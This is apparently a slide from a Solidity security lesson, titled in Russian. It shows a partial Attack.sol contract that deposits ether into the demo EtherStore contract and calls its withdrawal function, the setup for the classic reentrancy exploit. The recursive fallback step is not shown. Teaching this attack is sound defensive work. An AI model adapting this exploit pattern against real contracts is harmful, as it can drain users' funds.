

# Враждебный смарт-контракт Attack.sol
// Import the EtherStore contract definition to interact with it
import "./EtherStore.sol";

// Declaration of the Attack contract
contract Attack {
    // Declare a public variable of type EtherStore
    EtherStore public etherStore;

    // Constructor to initialize the etherStore variable with the address of the deployed EtherStore contract
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Function to perform the attack; marked as payable to receive ether
    function attackEtherStore() public payable {
        // Ensure the transaction sends enough ether to perform the attack
        require(msg.value >= 1 ether, "Insufficient Ether provided");

        // Deposit 1 ether into the EtherStore contract
        etherStore.depositFunds{value: 1 ether}();

        // Attempt to withdraw 1 ether from EtherStore, initiating the attack
        etherStore.withdrawFunds(1 ether);
    }